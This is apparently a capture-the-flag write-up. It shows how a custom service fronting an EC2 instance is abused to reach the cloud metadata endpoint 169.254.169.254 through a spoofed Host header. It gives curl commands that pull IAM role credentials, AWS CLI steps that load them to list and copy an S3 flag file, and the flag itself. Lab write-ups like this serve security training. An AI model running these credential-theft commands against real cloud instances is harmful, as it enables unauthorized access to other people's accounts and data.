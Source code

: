 we notice that this is a custom service that connects to an `ec2` instance 
with a specific ip address.


if we tried to ping the machine it will fail, but since this is the only info we have about it lets try to get its meta data :


in order to do so we need to specify the host IP address which is 
`169.254.169.254`

<blockquote >
  <h3>What is 169.254.169.254 address ?</h3>
  <p>
    These are dynamically configured link-local addresses. They are only valid on a single network segment and are not to be routed.
Of particular note, 169.254.169.254 is used in AWS, Azure, GCP and other cloud computing platforms to host instance metadata service.
  </p>
</blockquote>


```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

```shell
curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
```

```shell
​aws configure --profile Magni
```

```shell
​aws_session_token = <session-token>
```

```shell
​aws s3 ls --profile Magni
```
```shell
aws s3 cp s3://vanaheim55/flag.txt . --profile Magni
```

FLAG: PWNSEC{d347h_c4n_h4v3_m3_wh3n_17_34rn5_m3_68234}

